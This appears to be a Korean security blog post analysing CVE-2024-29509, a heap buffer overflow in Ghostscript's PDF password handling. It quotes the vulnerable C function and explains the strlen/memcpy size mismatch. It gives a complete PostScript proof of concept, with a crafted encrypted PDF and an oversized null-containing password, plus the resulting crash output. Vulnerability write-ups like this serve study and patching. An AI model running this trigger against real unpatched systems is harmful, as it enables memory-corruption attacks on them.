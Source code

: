 ```yaml
---
title: "[하루한줄] CVE-2024-29509: Artifex Ghostscript PDFPassword 처리 과정에서 발생하는 Heap Buffer Overflow"
author: clalxk
tags: [Ghostscript, PDFPassword, Heap Buffer Overflow, CVE-2024-29509, clalxk]
categories: [1day1line]
date: 2025-02-12 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://codeanlabs.com/blog/research/ghostscript-wrap-up-overflowing-buffers/](https://codeanlabs.com/blog/research/ghostscript-wrap-up-overflowing-buffers/)

## Target

- Ghostscript < 10.03.0

## Explain

Ghostscript는 PDF 해석 기능을 제공하며, PDF 문서가 암호화된 경우 이를 해독하기 위해 `PDFPassword` 문자열을 사용합니다. 특히, PDF 표준에서 정의된 여러 암호화 방식 중 하나인 **R5(RC4 128비트 암호화)**를 사용할 경우 `check_password_R5(...)` 함수가 호출됩니다. 

```c
static int check_password_R5(pdf_context *ctx, char *Password, int PasswordLen, int KeyLen)
{
    int code;

    if (PasswordLen != 0) {
        pdf_string *P = NULL, *P_UTF8 = NULL;

        code = check_user_password_R5(ctx, Password, PasswordLen, KeyLen);
        if (code >= 0)
            return 0;

        code = check_owner_password_R5(ctx, Password, PasswordLen, KeyLen);
        if (code >= 0)
            return 0;

        /* If the supplied Password fails as the user *and* owner password, maybe its in
         * the locale, not UTF-8, try converting to UTF-8
         */
        code = pdfi_object_alloc(ctx, PDF_STRING, strlen(ctx->encryption.Password), (pdf_obj **)&P);
        if (code < 0)
            return code;
        memcpy(P->data, Password, PasswordLen);
        pdfi_countup(P);
        code = locale_to_utf8(ctx, P, &P_UTF8);
        if (code < 0) {
            pdfi_countdown(P);
            return code;
        }
        code = check_user_password_R5(ctx, (char *)P_UTF8->data, P_UTF8->length, KeyLen);
        if (code >= 0) {
            pdfi_countdown(P);
            pdfi_countdown(P_UTF8);
            return code;
        }

        code = check_owner_password_R5(ctx, (char *)P_UTF8->data, P_UTF8->length, KeyLen);
        pdfi_countdown(P);
        pdfi_countdown(P_UTF8);
        if (code >= 0)
            return code;
    }
    code = check_user_password_R5(ctx, (char *)"", 0, KeyLen);
    if (code >= 0)
        return 0;

    return check_owner_password_R5(ctx, (char *)"", 0, KeyLen);
}
```

해당 `check_password_R5(...)` 함수는 입력된 `PDFPassword`를 사용자 및 소유자 비밀번호로 확인한 후, 실패할 경우 UTF-8 변환을 시도합니다.

이 과정에서 취약점이 발생했습니다.

1. **비밀번호 검증 실패 후, UTF-8 변환 시도**
    - 처음 입력된 비밀번호가 올바르지 않을 경우, 두 번째 시도를 위해 UTF-8로 변환됩니다.
    - 이때, `locale_to_utf8(...)` 함수가 호출되기 전에 비밀번호가 **새로 할당된 버퍼에 `memcpy(...)`** 됩니다.
2. **할당 크기(`strlen(...)`)와 복사 크기(`PasswordLen`) 불일치 문제 발생**
    - **할당된 크기**: `strlen(ctx->encryption.Password)`
        - `strlen(...)`은 **첫 번째 널 바이트(null-byte)를 만나면 문자열의 길이를 결정**합니다.
    - **복사되는 크기**: `PasswordLen`
        - `PasswordLen`은 `PDFPassword` PostScript 문자열의 실제 크기입니다.
        - PostScript 문자열은 **널 바이트(null-byte)를 포함할 수 있으며, 크기가 별도로 저장**됩니다.
3. **버퍼 크기보다 많은 데이터가 복사되며 힙 버퍼 오버플로우 발생**
    - **PostScript 문자열이 널 바이트를 포함하는 경우**, `strlen(...)`이 실제 길이를 제대로 계산하지 못하고 **버퍼 크기를 작게 할당**할 수 있습니다.
    - 이후 `memcpy(...)`에서 `PasswordLen`(실제 비밀번호 크기)만큼 복사할 때 **버퍼 크기를 초과하여 데이터가 복사되면서 힙 버퍼 오버플로우(Heap Buffer Overflow)** 가 발생할 수 있습니다.

저장되는 데이터를 토대로 설명하자면 아래와 같습니다.

1.  `\000` 은 PostScript에서 null 바이트를 인코딩합니다.

```
/PDFPassword (hello\000world)def
```

1. 길이가 11인 PostScript 문자열이지만 **`strlen`**은 길이가 5인 것으로 간주합니다. 
2. 즉, `memcpy`는 다음과 같습니다.

```c
//      char[5]    "hello\000world"   11
memcpy(P->data,    Password,          PasswordLen);
```

이에 따라 PostScript 코드에서 `PDFPassword`는 **"hello\000world"**로 설정되며, 이는 PostScript 문자열로 길이가 11이지만, `strlen(...)`은 첫 번째 null-byte를 만나 5를 반환하게 됩니다. 결과적으로 5바이트 크기의 버퍼가 할당된 상태에서 11바이트 데이터를 복사하게 되어 **버퍼 오버플로우가 발생**합니다.

### PoC

취약점을 트리거하는 poc 코드로,  **PostScript**로 작성되었습니다. 

**1. 취약점 유발 PDF 파일 생성**

```coffeescript
/Payload (%PDF-1.7
1 0 obj << /CF << /StdCF << /AuthEvent /DocOpen /CFM /AESV3 /Length 32 >> >>
/Filter /Standard /Length 256
/O <bdc7906c8e8074c880ac23065956c0db6a83d234a942d296364d065edf800b8e32a728ba6916718fbeb70e071a4a33ba>
/OE <7c88773da067c026cc58b5204106d54e320d509ab1d10ac3251f7a14e60d6970>
/P -1028 /Perms <1b6bd44c023964a469d801f598c8d5c4> /R 5 /StmF /StdCF /StrF /StdCF
/U <338dc89fb4a90d45cacf91298759e015a6fb0d3f132af0e6970a0079af12054554e7ab059c5392f9abce8a329b2b154b>
/UE <0d8b18de820855c5855de2560a81db57bb4674946bdf2b25eb6b901386492bd7> /V 5 >>
endobj xref 0 1 0000000000 65535 f 0000000009 00000 n trailer << /Encrypt 1 0 R >> startxref 0) def

```

- 위 코드는 간단한 **PDF 파일을 PostScript 내에서 생성**하는 부분입니다.
- PDF의 **암호화 버전(R 5)** 을 지정하고, AES 암호화를 사용하는 문서를 만듭니다.
- **이 파일 자체는 완전한 PDF가 아니지만, 암호 해독 로직에 도달할 수 있도록 구성**되어 있습니다.

**2. PDF 데이터를 파일에 저장**

```coffeescript
/OutFile (/tmp/out) (w) file def
OutFile Payload writestring
OutFile closefile
```

- 생성한 PDF 데이터를 `/tmp/out` 파일에 저장하는 부분입니다.
- **Ghostscript가 실행될 때, 이 파일을 해석하도록 유도**하는 역할을 합니다.

**3. 비밀번호 설정 (취약점 트리거)**

```coffeescript
/PDFPassword (hello\000BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB) def
```

- `PDFPassword`를 **특정 문자열로 설정**하는 부분입니다.
- 비밀번호로 `"hello\000BBBB..."`를 사용합니다.
    - `hello\000` → `"hello"` 뒤에 **NULL 바이트(`\000`)** 가 포함됨
    - `BBBB...` → **버퍼 크기보다 큰 데이터** (취약점 트리거)
- 이 값은 이후 **PDF 해석 과정에서 `check_password_R5(...)` 함수로 전달**됩니다.

**4. Ghostscript PDF 해석 실행 (취약점 트리거)**

```coffeescript
(/tmp/out) (r) file runpdf
```

- `/tmp/out`에 저장된 **PDF 파일을 실행**하도록 Ghostscript에게 명령합니다.
- 이 과정에서 **암호 해독 로직이 실행되며, 취약점이 발생**합니다.

**5. PoC 실행 및 전체 코드**

- PoC 실행

```bash
$ ghostscript -dNODISPLAY poc.ps
GPL Ghostscript 10.02.0 (2023-09-13)
Copyright (C) 2023 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
zsh: segmentation fault (core dumped)  ghostscript -dNODISPLAY poc.ps
```

- 전체 PoC 코드

```c
% Simple PDF with R5 encryption.
% This is not a very valid PDF but we only need to reach the decryption logic
/Payload (%PDF-1.7
1 0 obj << /CF << /StdCF << /AuthEvent /DocOpen /CFM /AESV3 /Length 32 >> >>
/Filter /Standard /Length 256
/O <bdc7906c8e8074c880ac23065956c0db6a83d234a942d296364d065edf800b8e32a728ba6916718fbeb70e071a4a33ba>
/OE <7c88773da067c026cc58b5204106d54e320d509ab1d10ac3251f7a14e60d6970>
/P -1028 /Perms <1b6bd44c023964a469d801f598c8d5c4> /R 5 /StmF /StdCF /StrF /StdCF
/U <338dc89fb4a90d45cacf91298759e015a6fb0d3f132af0e6970a0079af12054554e7ab059c5392f9abce8a329b2b154b>
/UE <0d8b18de820855c5855de2560a81db57bb4674946bdf2b25eb6b901386492bd7> /V 5 >>
endobj xref 0 1 0000000000 65535 f 0000000009 00000 n trailer << /Encrypt 1 0 R >> startxref 0) def

% Write the PDF data to a temporary file
/OutFile (/tmp/out) (w) file def
OutFile Payload writestring
OutFile closefile

% Set the PDFPassword to a buffer whose length is larger than its strlen
/PDFPassword (hello\000BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB) def

% Run the PDF interpreter on the file
(/tmp/out) (r) file runpdf

% 종료
showpage
quit
```

## Reference

https://nvd.nist.gov/vuln/detail/CVE-2024-29509
